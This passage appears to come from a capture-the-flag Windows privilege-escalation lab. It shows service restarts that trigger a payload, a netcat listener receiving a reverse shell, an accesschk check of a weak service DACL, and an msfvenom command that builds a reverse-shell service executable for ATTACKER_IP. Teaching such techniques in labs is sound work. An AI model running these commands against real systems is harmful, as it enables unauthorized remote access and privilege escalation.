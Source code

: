 **Once the service gets restarted, your payload should execute:**
```sh
C:\> sc stop "disk sorter enterprise" 
C:\> sc start "disk sorter enterprise"
```

**As a result, you'll get a reverse shell with svcusr2 privileges:**
```sh
user@attackerpc$ nc -lvp 4446 
Listening on 0.0.0.0 4446 
Connection received on 10.10.175.90 50650 
Microsoft Windows [Version 10.0.17763.1821] 
(c) 2018 Microsoft Corporation. All rights reserved. 

C:\Windows\system32>whoami 
wprivesc1\svcusr2
```
Go to svcusr2 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

## Insecure Service Permissions

   - You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. 
   - Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service.
   - This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

**To check for a service DACL from the command line, you can use Accesschk from the Sysinternals suite. For your convenience, a copy is available at `C:\\tools`. The command to check for the thmservice service DACL is:**
```sh
C:\tools\AccessChk> accesschk64.exe -qlc thmservice 
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM 
	  SERVICE_QUERY_STATUS 
	  SERVICE_QUERY_CONFIG 
	  SERVICE_INTERROGATE 
	  SERVICE_ENUMERATE_DEPENDENTS 
	  SERVICE_PAUSE_CONTINUE 
	  SERVICE_START 
	  SERVICE_STOP 
	  SERVICE_USER_DEFINED_CONTROL 
	  READ_CONTROL 
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users 
	  SERVICE_ALL_ACCESS
```
Here we can see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

**Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:**
```sh
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe 

user@attackerpc$ nc -lvp 4447
```
- We will then transfer the reverse shell executable to the target machine and store it in `C:\Users\thm-unpriv\rev-svc3.exe`.
